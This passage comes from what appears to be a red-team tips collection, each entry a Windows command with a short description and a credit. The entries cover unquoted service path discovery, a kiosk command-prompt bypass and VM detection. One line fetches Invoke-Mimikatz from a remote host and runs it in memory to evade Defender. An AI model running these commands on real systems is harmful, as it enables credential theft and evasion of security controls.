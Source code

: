 ### [🔙](#tool-list)Unquoted service paths without PowerUp

```bash
Get-CIMInstance -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

**Description:** _'Finding unquoted service paths without PowerUp'_

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1579254955554136064)

### [🔙](#tool-list)Bypass a disabled command prompt with /k

```bash
# Win+R (To bring up Run Box)
cmd.exe /k "whoami"
```

**Description:** _'This command prompt has been disabled by your administrator...' Can usually be seen in environments such as kiosks PCs, a quick hacky work around is to use /k via the windows run box. This will carry out the command and then show the restriction message, allowing for command execution._

**Credit:** Martin Sohn Christensen

**Link:** [Blog](https://improsec.com/tech-blog/the-command-prompt-has-been-disabled-by-your-administrator-press-any-key-to-continue-or-use-these-weird-tricks-to-bypass-admins-will-hate-you)

### [🔙](#tool-list)Stop windows defender deleting mimikatz.exe

```bash
(new-object net.webclient).downloadstring('https://raw.githubusercontent[.]com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')|IEX;inv
```

**Description:** _'Are you tired of Windows Defender deleting mimikatz.exe? Try this instead.'_

**Credit:** [@GuhnooPlusLinux](https://twitter.com/GuhnooPlusLinux)

**Link:** [Twitter](https://twitter.com/GuhnooPlusLinux/status/1605629049660809216)

### [🔙](#tool-list)Check if you are in a virtual machine

```bash
reg query HKLM\SYSTEM /s | findstr /S "VirtualBox VBOX VMWare"
```

**Description:** _'Want to know if you are in a Virtual Machine? Query the registry Keys and find out!!! If any results show up then you are in a Virtual Machine.'_

**Credit:** [@dmcxblue](https://twitter.com/dmcxblue)

**Link:** [Twitter](https://twitter.com/dmcxblue/status/1366779034672136194)

### [🔙](#tool-list)Enumerate AppLocker rules
